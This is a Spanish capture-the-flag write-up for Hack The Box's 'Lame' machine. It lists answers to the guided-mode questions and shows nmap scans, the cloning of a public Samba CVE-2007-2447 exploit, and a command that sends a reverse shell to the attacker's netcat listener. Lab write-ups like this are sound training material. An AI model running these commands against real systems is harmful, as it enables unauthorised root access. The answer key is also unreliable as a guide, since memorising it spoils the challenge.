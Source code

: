 ```yaml
---
title: Writeup lame - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - lame
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina lame en Hack The Box.
keywords:
  - writeup lame
  - hack the box lame
  - resolución máquina lame
  - lame hack the box
  - htb lame
---
```

-----
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/Facil/Linux/Lame)
- 📺 **Resolución en vivo (completa)**: [Link](https://www.youtube.com/watch?v=RiQEZlUoKvk)
- 🧠 **Explicación resumida**: 

---

#easy #linux #nmap #ping #CVE-2007-2447 

--------
# Guided Mode 

1)¿Cuántos de los 1000 puertos TCP principales de nmap están abiertos en el host remoto?
	4

2)¿Qué versión de VSFTPd se está ejecutando en Lame?
	2.3.4

3)Hay un famoso backdoor en VSFTPd versión 2.3.4, y un módulo Metasploit para explotarlo. ¿Funciona ese exploit aquí?
	No

4)¿Qué versión de Samba se está ejecutando en Lame? Indique los números hasta "-Debian" pero sin incluirlo.
	3.0.20

5)¿Qué CVE de 2007 permite la ejecución remota de código en esta versión de Samba a través de metacaracteres de shell que implican la función SamrChangePassword cuando la opción «username map script» está habilitada en smb.conf?
	CVE-2007-2447

6)La explotación de CVE-2007-2447 devuelve un intérprete de comandos como ¿qué usuario?
	root

*Las dos preguntas anteriores eran las flags*. Las siguientes preguntas son adicionales

9)Exploraremos un poco más allá de conseguir un shell root en la caja. Mientras que la escritura oficial no cubre esto, puedes mirar la escritura de 0xdf para más detalles. Con una shell de root, podemos ver por qué falló el exploit VSFTPd. Nuestro escaneo nmap inicial mostró cuatro puertos TCP abiertos. Ejecutando netstat -tnlp muestra muchos más puertos escuchando, incluyendo algunos en 0.0.0.0 y la IP externa de la caja, por lo que deberían ser accesibles. ¿Qué debe estar bloqueando la conexión a estos puertos?
	firewall

10)Cuando se activa el backdoor VSFTPd, ¿qué puerto empieza a escuchar?
	6200

11)Cuando se activa el backdoor VSFTPd, ¿el puerto 6200 empieza a escuchar en Lame?
	yes

##### Las preguntas adicionales por lo que entiendo segun el [writeup de 0xdf que nos da htb](https://0xdf.gitlab.io/2020/04/07/htb-lame.html#beyond-root---vsftpd) dice que si no estamos como root el firewall nos bloquea la mayoria de los puertos


-----------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.10.10.3
nmap -p- --open -sS -vvv --min-rate 5000 -n -Pn 10.10.10.3 -oG allPorts
extractPorts allPorts
nmap -sCV -p21,22,139,445,3632 10.10.10.3 -oN target
```

![[Lame1.png]]
![[Lame2.png]]

![[Lame3.png]]
![[Lame4.png]]
*TTL:* Maquina Linux
*Puertos:*
`21` FTP
`22` SSH
`445` SMB

-------
# Explotacion [[CVE-2007-2447]]

Al ser una vresion vieja de smb 3.0.20 Debian como vimos en el escaneo de NMAP, podemos probar el [[CVE-2007-2447]]

[Exploit hecho por amriunix](https://github.com/amriunix/CVE-2007-2447)(Para python2.7)

Clonamos el repositorio en nuestra maquina ``git clone https://github.com/amriunix/CVE-2007-2447.git``
Instalamos la libreria pysmb con el comando ``pip install pysmb``

Entramos a la carpeta del repositorio y solamente nos falta ejecutar el exploit mientras estamos en escucha con [[nc -nlvp 443]]
```
python2.7 usermap_script.py IpMaquinaVictima PuertoMaquinVictima IpDeNuestraMaquina PuertoDeNuestraMaquina
python2.7 usermap_script.py 10.10.10.3 445 10.10.16.10 443
```
![[Lame10.png]]

Una vez ejecutado el exploit ya estamos adentro como *root*

y nada mas nos queda catear las flags para terminar la maquina
![[Lame8.png]]

-------
# Notas

1)¿Cuántos de los 1000 puertos TCP principales de nmap están abiertos en el host remoto?
	4
		*Puertos:* 21,22,139,445
		Esto lo vimos con el comando `nmap --top-ports 1000 --open -sS -vvv -n -Pn 10.10.10.3 -oG allPorts` (le saque el `--min-rate 5000` por que no me aparecian todos los puertos)